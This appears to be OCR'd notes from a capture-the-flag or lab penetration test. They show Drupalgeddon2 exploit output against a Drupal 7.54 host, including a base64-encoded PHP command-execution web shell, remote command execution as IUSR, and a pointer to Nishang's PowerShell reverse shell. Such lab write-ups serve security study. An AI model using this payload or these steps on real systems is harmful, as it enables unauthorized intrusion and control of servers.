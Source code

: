 ```
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands

drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> dir
Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

19/03/2017  09:04 ��    <DIR>          .
19/03/2017  09:04 ��    <DIR>          ..
19/03/2017  01:42 ��               317 .editorconfig
19/03/2017  01:42 ��               174 .gitignore
19/03/2017  01:42 ��             5.969 .htaccess
19/03/2017  01:42 ��             6.604 authorize.php
19/03/2017  01:42 ��           110.781 CHANGELOG.txt
```


## Another User shell

Nishang Powershell - Invoke-PowerShellTcp.ps1
- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
